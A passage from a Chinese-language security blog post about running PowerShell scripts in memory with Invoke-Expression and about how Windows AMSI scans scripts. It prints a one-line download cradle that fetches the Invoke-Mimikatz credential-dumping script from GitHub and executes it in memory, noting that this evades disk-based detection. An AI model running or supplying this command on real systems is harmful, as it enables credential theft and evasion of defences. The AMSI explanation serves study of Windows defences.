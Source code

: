 此命令运行“Get-Process”并返回活动进程列表。Invoke-Expression与其他 cmdlet 或 .NET 方法结合使用时功能更加强大，可实现复杂的内存命令执行。  
  
  
使用 IEX 进行内存加载和执行  
与.DownloadString从WebClient类结合时，IEX可以完全在内存中下载并运行脚本。  
  
```
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowershellMafia/Powersploit/refs/heads/master/Exfiltration/Invoke-Mimikatz.ps1')
```  
  
- New-Object Net.WebClient创建一个WebClient用于检索资源的实例。  
  
- .DownloadString('URL')从提供的 URL 下载脚本。  
  
- IEX在内存中执行下载的脚本。  
  
该方法可以秘密执行，绕过磁盘存储并使检测更加困难。  
  
一旦你尝试执行它“BOOM”  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/rWGOWg48taegB05Ve4ZIB108iaBNHv7LItVDEWDGUoAibUcHMnN1hOiapFwDYySFgmFc3bIPtN8hXylH0Qgxsqxhw/640?wx_fmt=webp&from=appmsg "")  
  
然而，当代 Windows 版本已使用反恶意软件扫描接口 (AMSI) 加强了防御，以抵御此类脚本下载和执行尝试。AMSI 集成到 Windows 10 安全措施中，旨在检测和阻止基于脚本的规避技术，阻止绕过传统防病毒解决方案的企图。AMSI 是一种强大的防御机制，可防止潜在的恶意脚本执行，包括利用 PowerShell 内存加载功能的脚本执行。  
  
AMSI 的运作方式  
反恶意软件扫描接口 (AMSI) 代表深度集成到 Windows 操作系统的复杂安全框架。本分析深入探讨了其复杂的操作机制、高级功能和不断发展的能力。  
  
核心架构  
  
AMSI 利用组件对象模型 (COM) 接口实现 Windows、应用程序和防病毒解决方案之间的顺畅交互。这些接口促进了无缝通信和集成，从而有效地检测恶意软件。AMSI 架构的关键组件包括：  
- amsi.dll是促进扫描操作的中央 AMSI 库  
  
- AmsiScanBuffer和AmsiScanString函数分别负责扫描内存数据缓冲区和字符串以查找潜在威胁  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/rWGOWg48taegB05Ve4ZIB108iaBNHv7LIkx3Ne5SAnhpLVfDfttnWibthuQfSk5FvMUxrXPzgfxcicrqGIhczBL9g/640?wx_fmt=webp&from=appmsg "")  
  
实际上 AmsiScanString 只是使用 AmsiScanBuffer :)  
- IAntimalwareProvider：防病毒软件用于与 AMSI 集成的接口，允许第三方安全解决方案在 AMSI 框架内参与威胁检测。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/rWGOWg48taegB05Ve4ZIB108iaBNHv7LI1CUMsiajnpaLetVWOaHBibtGNU0afl6zeNjpDhv67RsSEeRgVuyjvRbQ/640?wx_fmt=webp&from=appmsg "")  
  
AMSI   
  
初始化和注册过程  
系统启动时，反恶意软件扫描接口 (AMSI) 会进行结构化初始化，以便与 Windows 应用程序和防病毒解决方案无缝集成：  
1. AMSI 服务在启动过程的早期进行初始化，确保扫描框架已准备好处理来自应用程序和服务的请求。  
  
1. 防病毒解决方案通过IAntimalwareProvider接口向 AMSI 注册。此注册允许防病毒产品与 AMSI 集成，使其能够参与扫描过程。  
  
1. 能够识别 AMSI 的应用程序（例如 PowerShell 和 Microsoft Office）会加载该amsi.dll库。此动态链接库 (DLL) 对于 AMSI 执行的扫描操作至关重要。  
  
1. 这些应用程序使用以下函数配置其扫描上下文AmsiInitialize：  
  
```
HRESULT AmsiInitialize( LPCWSTR appName, HAMSICONTEXT *amsiContext );
```  
  
  
该函数为每个应用程序创建一个唯一的上下文，允许特定于应用程序的扫描策略。appName参数指定应用程序的名称，amsiContext参数是指向将在后续 AMSI API 调用中使用的句柄的指针。  
  